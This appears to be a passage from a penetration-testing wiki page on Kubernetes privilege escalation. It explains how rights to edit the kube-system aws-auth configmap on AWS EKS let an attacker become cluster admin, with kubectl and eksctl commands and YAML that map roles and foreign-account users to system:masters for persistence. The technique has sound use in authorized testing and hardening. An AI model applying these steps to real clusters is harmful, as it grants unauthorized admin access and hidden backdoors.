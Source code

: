 ```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```

### AWS EKS aws-auth configmaps

Principals that can modify **`configmaps`** in the kube-system namespace on EKS (need to be in AWS) clusters can obtain cluster admin privileges by overwriting the **aws-auth** configmap.\
The verbs needed are **`update`** and **`patch`**, or **`create`** if configmap wasn't created:

{% code overflow="wrap" %}
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
  name: aws-auth
  namespace: kube-system
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node:{{EC2PrivateDNSName}}
      groups:
        - system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node:{{EC2PrivateDNSName}}
      groups:
        - system:masters
  mapUsers: |
    - userarn: arn:aws:iam::098765432123:user/SomeUserTestName
      username: admin
      groups:
        - system:masters
```
{% endcode %}

{% hint style="warning" %}
You can use **`aws-auth`** for **persistence** giving access to users from **other accounts**.

